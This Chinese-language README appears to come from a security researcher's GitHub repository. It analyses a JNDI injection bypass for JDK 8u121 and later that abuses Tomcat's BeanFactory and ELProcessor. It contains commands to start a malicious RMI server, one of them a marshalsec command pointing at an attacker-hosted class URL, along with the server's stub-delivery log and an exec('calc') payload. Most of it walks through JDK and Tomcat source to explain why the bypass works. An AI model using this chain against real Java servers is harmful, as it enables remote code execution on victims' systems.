

# 参考
- [marshalsec启动的普通RMI服务器](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/RMIRefServer.java#L299)
- [自己写的普通的RMI服务器](https://github.com/shadowsock5/JDNI-Bypass-JDK-By-RMI/blob/master/NormalRMIServer.java)
- [绕过的基于Tomcat的RMI服务器](https://github.com/shadowsock5/JDNI-Bypass-JDK-By-RMI/blob/master/TomcatRMIServer.java)


# JDNI-Bypass-JDK8u121-By-RMI

```bash
javac -cp  "D:\repos\apache-tomcat-8.5.53\lib\catalina.jar" .\TomcatRMIServer.java
java -cp ".;D:\repos\apache-tomcat-8.5.53\lib\catalina.jar" TomcatRMIServer
```



# 代码调用流程

## 1、使用常规的marshalsec启动RMI服务：
```bash
java -cp D:\repos\marshalsec\target\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.85.1:8888/#ExploitWin
```

com.sun.jndi.rmi.registry.RegistryContext.java


```java
    public Object lookup(Name var1) throws NamingException {
        if (var1.isEmpty()) {
            return new RegistryContext(this);
        } else {
            Remote var2;
            try {
                var2 = this.registry.lookup(var1.get(0));
            } catch (NotBoundException var4) {
                throw new NameNotFoundException(var1.get(0));
            } catch (RemoteException var5) {
                throw (NamingException)wrapRemoteException(var5).fillInStackTrace();
            }

            return this.decodeObject(var2, var1.getPrefix(1));
        }
    }
```

这一步是实际发送RMI请求的地方，调用
jdk1.8.0_201\jre\lib\rt.jar!\sun\rmi\registry\RegistryImpl_Stub#lookup
```java

java.rmi.Remote var2 = this.registry.lookup(var1.get(0));
```

marshalsec的控制台打印log：
```
Have connection from /a.b.c.d:45904
Reading message...
Is RMI.lookup call for ExploitWin 2
Sending remote classloading stub targeting http://192.168.85.1:8888/ExploitWin.class
Closing connection
```

拿到Remote对象（具体地，是com.sun.jndi.rmi.registry.ReferenceWrapper对象）之后，继续调用：
jdk1.8.0_201\jre\lib\rt.jar!\com\sun\jndi\rmi\registry\RegistryContext.class#decodeObject(Remote var1, Name var2)
```java
    private Object decodeObject(Remote var1, Name var2) throws NamingException {
        try {
            Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
            Reference var8 = null;
            if (var3 instanceof Reference) {
                var8 = (Reference)var3;
            } else if (var3 instanceof Referenceable) {
                var8 = ((Referenceable)((Referenceable)var3)).getReference();
            }

            if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
                throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
            } else {
                return NamingManager.getObjectInstance(var3, var2, this, this.environment);
            }
        } catch (NamingException var5) {
            throw var5;
        } catch (RemoteException var6) {
            throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
        } catch (Exception var7) {
            NamingException var4 = new NamingException();
            var4.setRootCause(var7);
            throw var4;
        }
    }
```

因为ReferenceWrapper extends UnicastRemoteObject implements RemoteReference
所以它是instanceof RemoteReference，于是调用((RemoteReference)var1).getReference()
```java
            if (var3 instanceof Reference) {
                var8 = (Reference)var3;
            } 
```
然后调用
```java
            if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
                throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
            } else {
                return NamingManager.getObjectInstance(var3, var2, this, this.environment);
            }
```
这里if有三个条件，同时满足的情况下会抛出异常。无法进入后面的NamingManager.getObjectInstance了。

第一个条件，肯定var8不为null，它是var3赋值过来的；
第三个条件，在8u121及以上，这个类都有这么一个static代码块，使`com.sun.jndi.rmi.object.trustURLCodebase`设置为false。
```java
    static {
        PrivilegedAction var0 = () -> {
            return System.getProperty("com.sun.jndi.rmi.object.trustURLCodebase", "false");
        };
        String var1 = (String)AccessController.doPrivileged(var0);
        trustURLCodebase = "true".equalsIgnoreCase(var1);
    }
```
第二个条件，
```java
var8.getFactoryClassLocation() != null
```
所以只能寄希望于`var8.getFactoryClassLocation()`返回null了。


## 2、使用绕过方式启动RMI服务

### javax.naming.spi.NamingManager#getObjectInstance

```java
// 拿到factory的name，这里是我们通过Reference传进去的org.apache.naming.factory.BeanFactory
String f = ref.getFactoryClassName();

// 从这个名字，和Reference中拿到ObjectFactory
ObjectFactory factory = getObjectFactoryFromReference(ref, f);

// 最后调用这个
factory.getObjectInstance(ref, name, nameCtx, environment);
```

#### javax.naming.spi.NamingManager#getObjectFactoryFromReference
```java
    static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // Try to use current class loader
        try {
             clas = helper.loadClass(factoryName);    // 尝试用本地的TomcatEmbeddedWebappClassLoader加载factory类org.apache.naming.factory.BeanFactory
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // Not in class path; try to use codebase
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {   // 若本地未找到，才会尝试从factoryLocation（url）里远程加载
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;    // 最后调用这个factory类的无参构造器构造出一个实例
    }
```

### => org.apache.naming.factory.BeanFactory#getObjectInstance
开始就进行参数的类型判断，
```java
if (obj instanceof ResourceRef){
    ...
}else{
    return null;
}
```
只有传入的参数是`ResourceRef`类型，才会进入后续的...
```java
String beanClassName = ref.getClassName();    // 拿到class的名字，这里是javax.el.ELProcessor

// 使用类加载器TomcatEmbeddedWebappClassLoader加载javax.el.ELProcessor这个类
ClassLoader tcl = Thread.currentThread().getContextClassLoader();
beanClass = tcl.loadClass(beanClassName);


// 使用其无参构造器构造出这个实例（所以我们构造的这个beanClass需要有无参的构造器）
Object bean = beanClass.getConstructor().newInstance();

// 从ref中拿到forceString这个字段的值（所以需要我们之前构造好）
RefAddr ra = ref.get("forceString");

String value = (String)ra.getContent();

// 如果是,分割的话，将这个内容分割成字符串数组
String[] var18 = value.split(",");

// 对于这个数组中的每一个成员，propName=等号后面的值，param是等号前面的值
int index = param.indexOf(61);  // indexOf(61)就是indexOf("=")
if (index >= 0) {
    propName = param.substring(index + 1).trim();    // eval
    param = param.substring(0, index).trim();        // x
	
// 最后将这个隐射关系存到Map里，即将x这个字符串与eval(String )方法对应起来。
Map<String, Method> forced = new HashMap();
forced.put(param, beanClass.getMethod(propName, new Class[]{String.class}));

// 前面我们根据要实现javax.naming.spi.ObjectFactory接口找到了广泛存在的Tomcat8+中的org.apache.naming.factory.BeanFactory
// 而根据BeanFactory代码中的逻辑，得知我们要找到具有无参构造器，而且接收一个String类型作为参数。


// ra这里是javax.naming.StringRefAddr类型，对应我们之前设置的：
// ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"calc\")"));

value = (String)ra.getContent();    // Runtime.getRuntime().exec("calc")
Object[] valueArray = new Object[1];
Method method = (Method)forced.get(propName);   // propName是"x"
if (method != null) {
    valueArray[0] = value;
	
	// bean是javax.el.ELProcessor对象，这里是调用javax.el.ELProcessor#eval(valueArray)
    method.invoke(bean, valueArray);
    
```
